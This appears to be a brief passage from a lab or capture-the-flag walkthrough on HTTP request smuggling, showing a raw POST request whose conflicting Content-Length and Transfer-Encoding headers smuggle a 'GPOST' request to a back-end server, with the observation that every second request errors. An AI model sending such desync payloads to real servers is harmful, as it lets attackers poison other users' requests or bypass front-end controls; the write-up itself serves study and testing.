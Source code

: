 ![img](media/a2787e7357455ee0bf4df97cd4aba6e2.png)

First we can test a previously used payload to generate a request with GPOST,
finding it generates an error every 2 requests:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

26
GPOST / HTTP/1.1
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
